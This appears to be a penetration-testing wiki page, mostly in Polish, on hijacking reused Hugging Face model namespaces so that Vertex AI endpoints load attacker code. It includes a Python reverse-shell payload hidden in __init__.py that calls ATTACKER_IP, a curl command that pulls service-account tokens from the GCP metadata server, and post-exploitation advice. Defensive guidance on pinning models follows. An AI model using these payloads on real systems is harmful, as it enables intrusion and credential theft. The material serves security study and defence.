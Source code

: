 # GCP - Vertex AI Post-Exploitation przez ponowne wykorzystanie przestrzeni nazw modeli Hugging Face

{{#include ../../../banners/hacktricks-training.md}}

## Scenariusz

- Vertex AI Model Garden pozwala na bezpośrednie wdrożenie wielu modeli Hugging Face (HF).
- Identyfikatory modeli HF mają postać Author/ModelName. Jeśli autor/organizacja na HF zostanie usunięta, ta sama nazwa autora może zostać ponownie zarejestrowana przez dowolną osobę. Atakujący mogą wtedy stworzyć repo o tej samej nazwie ModelName w historycznej ścieżce.
- Pipelines, SDKs, or cloud catalogs that fetch by name only (no pinning/integrity) will pull the attacker-controlled repo. When the model is deployed, loader code from that repo can execute inside the Vertex AI endpoint container, yielding RCE with the endpoint’s permissions.

Dwa typowe przypadki przejęcia na HF:
- Ownership deletion: Stara ścieżka zwraca 404 dopóki ktoś nie zarejestruje ponownie autora i nie opublikuje tego samego ModelName.
- Ownership transfer: HF issues 307 redirects from old Author/ModelName to the new author. If the old author is later deleted and re-registered by an attacker, the redirect chain is broken and the attacker’s repo serves at the legacy path.

## Identyfikowanie możliwych do ponownego użycia przestrzeni nazw (HF)

- Stary autor usunięty: strona autora zwraca 404; ścieżka modelu może zwracać 404 aż do przejęcia.
- Przeniesione modele: stara ścieżka modelu zwraca 307 do nowego właściciela, dopóki stary autor istnieje. Jeśli stary autor zostanie później usunięty i ponownie zarejestrowany, historyczna ścieżka będzie wskazywać na repo atakującego.

Szybkie sprawdzenia za pomocą curl:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## Przebieg ataku end-to-end przeciwko Vertex AI

1) Odnajdź przestrzenie nazw modeli możliwe do ponownego użycia, które Model Garden oznacza jako deployable:
- Znajdź modele HF w Vertex AI Model Garden, które nadal są oznaczone jako “verified deployable”.
- Sprawdź na HF, czy oryginalny autor został usunięty lub czy model został przeniesiony, a stary autor później usunięty.

2) Zarejestruj ponownie usuniętego autora na HF i odtwórz ten sam ModelName.

3) Opublikuj złośliwe repo. Dołącz kod, który wykona się podczas ładowania modelu. Przykłady, które często wykonują się podczas ładowania modelu HF:
- Efekty uboczne w __init__.py repo
- Własne pliki modeling_*.py lub kod przetwarzający wskazywany przez config/auto_map
- Ścieżki kodu wymagające trust_remote_code=True w Transformers pipelines

4) Wdrożenie Vertex AI korzystające z legacy Author/ModelName teraz pobiera repo atakującego. Loader wykonuje się wewnątrz kontenera endpointu Vertex AI.

5) Payload ustanawia dostęp ze środowiska endpointu (RCE) z uprawnieniami endpointu.

Przykładowy fragment payloadu wykonywany podczas importu (tylko w celach demonstracyjnych):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Uwagi
- Rzeczywiste implementacje loaderów różnią się. Wiele integracji Vertex AI HF klonuje i importuje moduły z repozytorium wskazane w konfiguracji modelu (np. auto_map), co może prowadzić do wykonania kodu. W niektórych przypadkach wymagane jest trust_remote_code=True.
- Endpoint zwykle działa w dedykowanym kontenerze o ograniczonym zakresie, ale stanowi ważny początkowy punkt dostępu do danych i ruchu lateralnego w GCP.

## Wskazówki po eksploatacji (Vertex AI Endpoint)

Gdy kod działa wewnątrz kontenera endpointu, rozważ:
- Wyliczanie zmiennych środowiskowych i metadanych w poszukiwaniu poświadczeń/tokenów
- Dostęp do dołączonego storage'u lub zamontowanych artefaktów modelu
- Interakcja z Google APIs za pomocą tożsamości service account (Document AI, Storage, Pub/Sub, etc.)
- Utrwalanie w artefakcie modelu, jeśli platforma ponownie pobierze repo

Wylicz metadane instancji, jeśli dostępne (zależne od kontenera):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Wytyczne obronne dla użytkowników Vertex AI

- Przypinaj modele do commita w HF loaders, aby zapobiec cichej podmianie:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Replikuj zweryfikowane modele HF do zaufanego wewnętrznego magazynu artefaktów/rejestru i wdrażaj stamtąd.
- Nieprzerwanie skanuj repozytoria kodu i konfiguracje w poszukiwaniu na stałe zakodowanych Author/ModelName, które zostały usunięte/przeniesione; zaktualizuj do nowych przestrzeni nazw lub przypnij do commita.
- W Model Garden weryfikuj pochodzenie modelu i istnienie autora przed wdrożeniem.

## Heurystyki rozpoznawcze (HTTP)

- Usunięty autor: strona autora 404; ścieżka starego modelu 404 aż do przejęcia.
- Przeniesiony model: stara ścieżka 307 do nowego autora, podczas gdy stary autor istnieje; jeśli stary autor zostanie później usunięty i ponownie zarejestrowany, stara ścieżka serwuje zawartość atakującego.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Odniesienia krzyżowe

- Zobacz szerszą metodologię i uwagi dotyczące łańcucha dostaw:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Źródła

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
